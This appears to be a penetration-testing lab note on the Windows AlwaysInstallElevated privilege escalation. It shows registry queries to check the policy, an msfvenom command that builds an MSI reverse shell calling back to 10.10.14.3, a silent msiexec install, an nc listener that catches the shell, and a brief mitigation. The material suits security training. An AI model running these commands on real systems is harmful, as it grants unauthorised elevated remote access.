 # Always Install Elevated

### <mark style="color:red;">Always Install Elevated</mark>

This setting can be set via Local Group Policy by setting `Always install with elevated privileges` to `Enabled` under the following paths.

* `Computer Configuration\Administrative Templates\Windows Components\Windows Installer`
* `User Configuration\Administrative Templates\Windows Components\Windows Installer`

<figure><img src="../../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

<mark style="color:green;">**Enumerating Always Install Elevated Settings**</mark>

```powershell-session
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
```

```powershell-session
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

<mark style="color:green;">**Generating MSI Package**</mark>

{% code fullWidth="true" %}
```shell-session
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi
```
{% endcode %}

<mark style="color:green;">**Executing MSI Package**</mark>

```cmd-session
msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart
```

<mark style="color:green;">**Catching Shell**</mark>

```shell-session
mrroboteLiot_1@htb[/htb]$ nc -lnvp 9443
```

This issue can be mitigated by disabling the two Local Group Policy settings mentioned above.
